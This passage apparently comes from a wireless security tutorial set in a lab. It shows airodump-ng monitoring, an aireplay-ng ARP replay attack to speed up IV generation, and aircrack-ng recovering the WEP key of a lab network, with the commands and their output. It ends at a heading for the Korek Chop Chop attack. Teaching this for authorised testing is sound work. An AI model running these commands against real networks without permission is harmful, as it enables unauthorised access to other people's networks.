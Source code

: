 ```shell
```

As this process runs, back in the `airodump-ng` output we can notice that the `Frames` count for the connected station increases. This is a positive sign that many IVs are being generated.

```shell
 CH  1 ][ Elapsed: 2 mins ][ 2024-08-05 20:20

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 A2:BD:32:EB:21:15  -47   0     1584    23983  923   1   11   WEP  WEP         HackTheWifi

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 A2:BD:32:EB:21:15  42:E9:11:39:88:AE  -48   11 - 1      0    36015

```

To further accelerate the IV generation process, we can launch an ARP request replay attack in a new terminal. This approach will enhance the rate at which new IVs are created, helping to expedite the overall process.

```shell
sudo aireplay-ng -3 -b A2:BD:32:EB:21:15 -h 42:E9:11:39:88:AE wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
        ifconfig wlan0mon hw ether 42:E9:11:39:88:AE
19:21:47  Waiting for beacon frame (BSSID: A2:BD:32:EB:21:15) on channel 1
Saving ARP requests in replay_arp-0805-192147.cap
You should also start airodump-ng to capture replies.
Read 133226 packets (got 30681 ARP requests and 0 ACKs), sent 27992 packets...(499 pps)

```

Once enough packets have been gathered, we can use aircrack-ng to crack the WEP key from the captured IVs stored in the `WEP-01.cap` file:

```shell
aircrack-ng -b A2:BD:32:EB:21:15 WEP-01.cap

Got 85311 out of 85000 IVs
Starting PTW attack with 85311 ivs.

                     KEY FOUND! [ 33:44:55:22:11 ]

Reading Decrypted correctly: 100%
Opening WEP-01.cap
Read 306522 packets.

```


# Korek Chop Chop Attack

